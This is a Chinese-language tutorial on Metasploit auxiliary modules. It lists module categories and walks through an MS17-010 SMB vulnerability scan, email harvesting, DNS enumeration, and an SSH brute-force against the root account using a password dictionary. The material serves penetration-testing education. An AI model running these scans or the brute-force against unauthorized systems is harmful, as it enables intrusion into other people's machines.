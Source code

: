 说明：我们知道msf辅助模块有上千个，主要用于信息搜集阶段，功能包括扫描、口令猜解、敏感信息嗅探、FUZZ测试发掘漏洞、实施网络协议欺骗等

# 一、怎么查询 Auxiliary辅助模块

我们可以通过以下命令查询所有 Auxiliary辅助模块

use auxiliary/ 或   show auxiliary

# 二、 Auxiliary辅助模块分类

---

#### admin

---

/admin/android

/admin/http

/admin/mysql/

/admin/oracle/

/admin/vmware/

/admin/smb/

---

#### dos

---

/dos/android/

/dos/http/

/dos/cisco/

/dos/dns/

/dos/smb/

/dos/windows/ftp/

---

#### fuzzers

---

/fuzzers/http/

/fuzzers/smb/

/gather/

---

#### scanner

---

/scanner/portscan/

/scanner/ftp/

/scanner/http/

/scanner/ssh/

/scanner/smb/

/scanner/vmware/

/scanner/vnc/

/scanner/telnet/

/scanner/msyql/

/scanner/ntp/

/scanner/openvas/

/scanner/sap/

#### server

/server/

# 三、通过分类查询指定模块

通过search查询指定模块

search type:auxiliary name:smb

type： 后门跟的的模块类型   name ： 后门跟的就是要搜的模块名

# 四、怎么调用模块

我们调一个smb模块演示

1 查询与SMB	相关的辅助模块

search type:auxiliary name:smb

2 加载一个ms17_010探测模块

use auxiliary/scanner/smb/smb_ms17_010

3 查看载入模块需要配置的参数

show options

![1645511393570](01 msf辅助模块.assets/1645511393570.png)

set RHOSTS 192.168.110.110   (设定目标IP)

set THREADS 10    （如果觉得探测过慢可以增加线程，根据电脑实际性能来不要配置太多 个人建议最大10）

run （执行探测）

![1645511404119](01 msf辅助模块.assets/1645511404119.png)

![1645511415106](01 msf辅助模块.assets/1645511415106.png)

# 五、更多

1 whois查看域名或IP信息  （hu yi zi）

whois www.baidu.com

whois 192.168.0.1

2  利用辅助模块查找邮箱

use auxiliary/gather/search_email_collector

3 DNS枚举，使用auxiliary模块下的DNS枚举模块：

use auxiliary/gather/enum_dns

4 ssh爆破，使用auxiliary模块下的ssh_login

use /auxiliary/scanner/ssh/ssh_login

set RHOSTS 192.168.1.92   (设定目标IP)
set USERNAME root    （设定ssh登陆账户）
set PASS_FILE /kevin/ssh_passwd.txt   （设定暴力字典）
set THREADS 100           (线程设置为100)
show options                   (查看更改后的参数)12345

run   开始爆破
